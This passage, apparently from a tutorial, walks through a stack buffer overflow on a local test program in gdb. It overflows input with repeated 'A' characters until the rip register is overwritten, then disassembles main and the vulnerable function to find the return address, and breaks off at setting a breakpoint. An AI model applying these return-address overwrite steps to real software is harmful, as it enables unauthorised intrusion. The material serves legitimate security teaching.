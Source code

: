 
```shell
(gdb) r "$(python -c 'print "A" * 20')"
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /root/Desktop/Shellcode/test "$(python -c 'print "A" * 20')"

#Looking rip register with input size of 20x A characters
rip            0x555555004141	0x555555004141
#Looking at rip register with input size of 21x A characters
rip            0x555500414141	0x555500414141
```

Finally rip register is getting filled with 'A's. This register is somehow meaningful to us.

Let's go some steps back and look a bit deeper.
We suppose now, that our program has function, where this overflow actually occurs. (In this case, instruction +29 uses that function named as *stackoverflow*.) We disassemble the main function, and see the addresses of each instruction:

```shell
Dump of assembler code for function main:
   0x0000555555554771 <+0>:	push   %rbp
   0x0000555555554772 <+1>:	mov    %rsp,%rbp
   0x0000555555554775 <+4>:	sub    $0x10,%rsp
   0x0000555555554779 <+8>:	mov    %edi,-0x4(%rbp)
   0x000055555555477c <+11>:	mov    %rsi,-0x10(%rbp)
   0x0000555555554780 <+15>:	mov    -0x10(%rbp),%rax
   0x0000555555554784 <+19>:	add    $0x8,%rax
   0x0000555555554788 <+23>:	mov    (%rax),%rax
   0x000055555555478b <+26>:	mov    %rax,%rdi
   0x000055555555478e <+29>:	callq  0x55555555473e <stackoverflow>
   0x0000555555554793 <+34>:	mov    $0x0,%eax
   0x0000555555554798 <+39>:	leaveq 
   0x0000555555554799 <+40>:	retq   
End of assembler dump.
```
Address right after stackoverflow function is: **0x0000555555554793**
This is important, as some point we should get into this instruction after completing 'stackoverflow' function.

**This time, execute program without a making buffer overflow**

Let's stop execution of program inside this stackoverflow function, just before the 'unsafe' instruction (in this case: standard library function allowing the buffer overflow), right after it and just before returning from this function, *by using breakpoints in gdb:*

```shell
Dump of assembler code for function stackoverflow:
   0x000055555555473e <+0>:	push   %rbp
   0x000055555555473f <+1>:	mov    %rsp,%rbp
   0x0000555555554742 <+4>:	sub    $0x20,%rsp
   0x0000555555554746 <+8>:	mov    %rdi,-0x18(%rbp)
   0x000055555555474a <+12>:	mov    -0x18(%rbp),%rdx
   0x000055555555474e <+16>:	lea    -0xf(%rbp),%rax
   0x0000555555554752 <+20>:	mov    %rdx,%rsi
   0x0000555555554755 <+23>:	mov    %rax,%rdi
   0x0000555555554758 <+26>:	callq  0x5555555545c0 <ReasonForOverflow>
   0x000055555555475d <+31>:	lea    -0xf(%rbp),%rax
   0x0000555555554761 <+35>:	mov    %rax,%rdi
   0x0000555555554764 <+38>:	mov    $0x0,%eax
   0x0000555555554769 <+43>:	callq  0x5555555545f0 <printf@plt>
   0x000055555555476e <+48>:	nop
   0x000055555555476f <+49>:	leaveq 
   0x0000555555554770 <+50>:	retq   
End of assembler dump.

(gdb) b * 0x555555554758
```